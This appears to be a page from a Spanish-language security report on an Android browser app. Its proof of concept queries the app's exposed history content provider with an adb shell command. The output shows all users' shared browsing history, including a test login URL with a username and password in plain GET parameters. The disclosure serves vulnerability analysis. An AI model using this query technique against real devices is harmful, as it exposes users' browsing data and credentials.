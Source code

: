 \documentclass[11pt, a4paper, twoside]{article}
\begin{document}
\vspace{-30pt}
\subsubsection{Prueba de Concepto}
A continuación se muestra un query al content provider \textbf{history\_provider}, realizado con el comando \texttt{content} del shell de Android. Antes de ello, se navegó a través de algunas páginas con usuarios distintos, Google y Facebook con el primer usuario, y Taringa con el segundo usuario.

\begin{verbatim}
$ adb shell content query --uri "content://ar.sadosky.browser.history_provider/history"
Row: 0 url_visited=about:blank
Row: 1 url_visited=http://www.google.com.ar/
Row: 2 url_visited=http://www.google.com.ar/intl/es-419/policies/privacy/?fg=1
Row: 3 url_visited=https://facebook.com/
Row: 4 url_visited=https://www.facebook.com/?_rdr
Row: 5 url_visited=https://m.facebook.com/?_rdr&refsrc=https%3A%2F%2Fwww.facebook.com%2F
Row: 6 url_visited=https://mail.google.com/mail/
Row: 7 url_visited=https://accounts.google.com/ServiceLogin?service=mail&passive=true
&continue=https://mail.google.com/mail/?ui%3Dmobile%26zyp%3Dl&scc=1&ltmpl=ecobx
&nui=5&btmpl=mobile&emr=1
Row: 8 url_visited=http://www.taringa.net/
Row: 9 url_visited=http://m.taringa.net/
Row: 10 url_visited=http://www.taringa.net/login.html?user=taringuero&pass=1234
Row: 11 url_visited=http://m.taringa.net/posts/hazlo-tu-mismo/18505791/
Te-enseno-a-hacer-una-mochila-3.html
\end{verbatim}

Como se puede apreciar, por las razones expuestas anteriormente, todo el historial de los usuarios puede ser obtenido muy fácilmente. No sólo es posible ver eso, sino también que el historial de todos los usuarios de la aplicación se encuentra guardado sin distinción del usuario que lo produjo, por lo que todos los usuarios comparten el mismo historial.

El hecho de que el historial sea accesible por cualquier aplicación, representa no solo una brecha a la privacidad del usuario, sino que también existe el peligro de robo de sesiones/credenciales de los sitios en que navega el usuario, suponiendo que alguno de estos datos sean enviados a través de peticiones GET\footnote{Lo cual en sí ya representa una vulnerabilidad}. Se realizó un login al sitio de taringa, a modo de ejemplo, el cual quedó registrado en la línea \textbf{\color{blue}Row: 10 url\_visited=http://www.taringa.net/login.html?user={\color{red}taringuero}&pass={\color{red}1234}}, de la cual es posible extraer el usuario ``taringuero'' y la contraseña ``1234''.
\end{document}
